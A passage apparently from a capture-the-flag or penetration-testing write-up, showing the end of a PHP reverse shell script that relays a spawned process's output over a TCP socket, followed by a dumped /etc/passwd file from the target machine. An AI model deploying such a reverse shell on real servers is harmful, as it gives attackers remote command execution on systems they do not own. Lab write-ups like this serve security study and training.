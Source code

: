 ```php

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```
{% endtab %}

{% tab title="/etc/passwd" %}
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:112:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/bin/false
hplip:x:114:7:HPLIP system user,,,:/var/run/hplip:/bin/false
```